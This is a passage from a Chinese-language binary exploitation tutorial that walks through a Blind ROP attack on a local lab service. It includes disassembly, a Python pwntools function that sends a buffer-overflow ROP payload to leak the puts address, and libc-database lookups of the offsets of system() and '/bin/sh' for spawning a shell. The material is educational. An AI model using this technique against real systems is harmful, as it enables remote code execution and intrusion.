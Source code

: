 ```
       `==< 0x0040061b      e9c0ffffff     jmp 0x4005e0                                                                                                                               
        :   0x00400620      ff250a0a2000   jmp qword [0x00601030]      ; [0x601030:8]=-1                                                                                              
        :   0x00400626      6803000000     push 3                      ; 3                                                                                                            
        `=< 0x0040062b      e9b0ffffff     jmp 0x4005e0
```
于是我们就得到了 puts@got 地址 `0x00601018`。可以看到该表中还有其他几个函数，根据程序的功能大概可以猜到，无非就是 setbuf、read 之类的，在后面的过程中如果实在无法确定 libc，这些信息可能会有用。

#### attack
后面的过程和无 libc 的利用差不多了，先使用 puts 打印出其在内存中的地址，然后在 libc-database 里查找相应的 libc，也就是目标机器上的 libc，通过偏移计算出 `system()` 函数和字符串 `/bin/sh` 的地址，构造 payload 就可以了。

```python
def get_puts_addr(buf_size, stop_addr, gadgets_addr, puts_plt, puts_got):
    pop_rdi  = gadgets_addr + 9

    payload  = "A"*buf_size
    payload += p64(pop_rdi)
    payload += p64(puts_got)
    payload += p64(puts_plt)
    payload += p64(stop_addr)

    p = remote('127.0.0.1', 10001)
    p.recvline()
    p.sendline(payload)
    data = p.recvline()
    data = u64(data[:-1] + '\x00\x00')
    log.info("puts address: 0x%x" % data)
    p.close()

    return data
```
```
[*] puts address: 0x7ffff7a90210
```

这里插一下 [libc-database](https://github.com/niklasb/libc-database) 的用法，由于我本地的 libc 版本比较新，可能未收录，就直接将它添加进去好了：
```
$ ./add /usr/lib/libc-2.26.so   
Adding local libc /usr/lib/libc-2.26.so (id local-e112b79b632f33fce6908f5ffd2f61a5d8058570  /usr/lib/libc-2.26.so)
  -> Writing libc to db/local-e112b79b632f33fce6908f5ffd2f61a5d8058570.so
  -> Writing symbols to db/local-e112b79b632f33fce6908f5ffd2f61a5d8058570.symbols
  -> Writing version info
```
然后查询（ASLR 并不影响后 12 位的值）：
```
$ ./find puts 210
/usr/lib/libc-2.26.so (id local-e112b79b632f33fce6908f5ffd2f61a5d8058570)
$ ./dump local-e112b79b632f33fce6908f5ffd2f61a5d8058570
offset___libc_start_main_ret = 0x20f6a
offset_system = 0x0000000000042010
offset_dup2 = 0x00000000000e8100
offset_read = 0x00000000000e7820
offset_write = 0x00000000000e78c0
offset_str_bin_sh = 0x17aff5
$ ./dump local-e112b79b632f33fce6908f5ffd2f61a5d8058570 puts
offset_puts = 0x000000000006f210
```

